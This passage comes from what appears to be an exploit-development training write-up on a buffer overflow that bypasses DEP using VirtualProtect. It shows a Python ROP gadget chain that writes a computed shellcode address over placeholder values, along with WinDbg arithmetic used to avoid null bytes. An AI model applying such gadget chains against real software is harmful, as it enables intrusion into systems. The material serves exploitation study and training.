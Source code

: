 # Patch Shellcode Return Address and Shellcode Address

Now, let's patch the 0x46464646 and 0x47474747. For that we must know where we'll put our shellcode.

We don't know exactly where we'll put there, right now. We can suppos that it's going to be 320 bytes over ECX. So we will make a copy of ECX to EAX, and the add 320 bytes in it.

Here we cannot use +320, because it contains nullbytes, so will use -320 and then NEG its to become 320.

```
0:000> ?320
Evaluate expression: 800 = 00000320
0:000> ?0x0 - 320
Evaluate expression: -800 = fffffce0
```

Here is the gadgets we'll use

```py
##############
# -> Patch Return Address in 0x46464646 and 0x47474747
##############
## INC 4 ECX, ALIGN STACK
0x61b474f8,  # inc ecx; ret;
0x61b474f8,  # inc ecx; ret;
0x61b474f8,  # inc ecx; ret;
0x61b474f8,  # inc ecx; ret;
## PUT -320 IN EDX
0x61e30fe3,  # pop edx; ret;
0xfffffce0, # -320
## NEG EDX TO BECOME +320
0x6eb47012,  # neg edx; ret;
## COPY ECX IN EAX
0x6ab445f9,  # mov eax, ecx; ret;
## ADD THE 320 IN EAX
0x6ab00690,  # add eax, edx; ret;
## WRITE EAX IN ECX (0x46464646)
0x6aaa04ec,  # mov dword ptr [ecx], eax; ret;
## INC 4 INC, ALIGN STACK
0x61b474f8,  # inc ecx; ret;
0x61b474f8,  # inc ecx; ret;
0x61b474f8,  # inc ecx; ret;
0x61b474f8,  # inc ecx; ret;
## WRITE EAX IN ECX (0x47474747)
0x6aaa04ec,  # mov dword ptr [ecx], eax; ret;
```

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP-VirtualProtect/address-0x46-0x47.gif)

Now that we already now the place we'll put our shellcode, let's continue.

# Patch dwSize
